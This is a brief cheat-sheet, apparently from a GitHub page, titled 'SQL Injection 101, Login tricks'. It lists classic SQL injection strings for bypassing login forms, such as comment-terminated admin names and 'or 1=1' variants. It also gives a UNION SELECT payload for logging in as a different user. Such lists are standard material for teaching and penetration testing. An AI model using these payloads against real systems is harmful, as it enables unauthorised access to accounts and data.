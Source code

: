 _SQL Injection 101_, Login tricks

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1--`
-   ….
-   Login as different user (SM*)   
    `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

_*Old versions of MySQL doesn’t support union queries_